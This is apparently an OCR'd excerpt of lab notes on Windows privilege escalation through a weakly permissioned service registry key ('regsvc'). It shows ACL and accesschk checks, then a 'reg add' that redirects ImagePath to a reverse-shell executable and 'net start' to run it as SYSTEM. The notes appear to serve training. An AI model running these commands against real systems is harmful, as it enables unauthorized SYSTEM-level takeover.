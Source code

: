 ```bash


Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\regsvc
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : Everyone Allow  ReadKey
         NT AUTHORITY\INTERACTIVE Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  -2147483648
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadKey
         S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681 Allow  
         -2147483648
         S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681 Allow  
         ReadKey
Audit  : 
Sddl   : O:BAG:SYD:P(A;CI;KR;;;WD)(A;CI;KA;;;IU)(A;CI;KA;;;SY)(A;CI;KA;;;BA)(A;CIIO;GR;;;AC)(A;OICI;KR;;;AC)(A;CIIO;GR;
         ;;S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681)(A;OICI
         ;KR;;;S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681)
```
```bash
# Alternatively accesschk.exe can be used to confirm:
> .\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS


# Query the register. 
reg query HKLM\SYSTEM\CurrentControlSet\services\regsvc 

reg query HKLM\SYSTEM\CurrentControlSet\services\regsvc 

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\regsvc
    Type    REG_DWORD    0x10
    Start    REG_DWORD    0x3
    ErrorControl    REG_DWORD    0x1
    ImagePath    REG_EXPAND_SZ    "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
    DisplayName    REG_SZ    Insecure Registry Service
    ObjectName    REG_SZ    LocalSystem

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\regsvc\Security

# Overwrite the ImagePath registry key to point to our reverse shell executable.
> reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d
C:\PrivEsc\reverse.exe /f

#This has same effect as chaning the bin path of the service. 
#Start a listener on Kali, and then start the service to trigger the exploit:
> net start regsvc
```